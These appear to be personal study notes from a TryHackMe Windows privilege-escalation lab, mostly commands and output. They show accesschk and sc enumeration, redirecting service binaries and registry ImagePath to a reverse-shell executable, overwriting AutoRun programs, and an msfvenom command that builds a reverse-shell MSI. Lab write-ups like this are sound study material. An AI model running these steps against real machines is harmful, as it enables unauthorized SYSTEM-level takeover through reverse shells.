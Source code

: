 THMWindows Privilege Escalation

Privlege Esacalations:Windows

After the initial access to the system.

1. Service Exploits: Insecure Service Binary Permissions

Tool: accesschk.exe 
Command: accesschk.exe /accepteula -uwcqv user daclsvc

    Here daclsvc is the binary 

RW daclsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_CHANGE_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL

The user has permissions to read and write to the binary. 

sc utility: 

C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

Changing the binaryexecution path: 
C:\PrivEsc>sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS

Retstart the service: 

2.Service Exploits :Unquoted Serivce Path: 

Find unquoted service paths using powerup.ps1 or winpeas.exe

Using sc utility: 

sc qc <service_Name> 

sc qc unquotedsvc

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

Check the user permissions in the path and  find the writable path: 

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
Users has write access to the path

Now copy the reverse shell exe file to the path. 

copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
Restart the service using net 
net start unquotedsvc

Service Exploits: Weak Registry Permissions 

Checking the registry using sc 

sc qc regsvc

sc qc regsvc 
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

Checking the permissions to the registry: 
C:\PrivEsc>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
	KEY_ALL_ACCESS

verwrite the ImagePath registry key to point to the reverse.exe executable you created:

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

Service Exploits - Insecure Service Executables

Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

sc qc filepermsvc

Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

net start filepermsvc

7. Registry - AutoRuns

Query the registry for AutoRun executables:

reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Using accesschk.exe, note that one of the AutoRun executables is wr itable by everyone:

C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it.

rdesktop 10.10.252.219

8. Registry - AlwaysInstallElevated

Query the registry for AlwaysInstallElevated keys:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:

msiexec /quiet /qn /i C:\xampp\htdocs\.msi

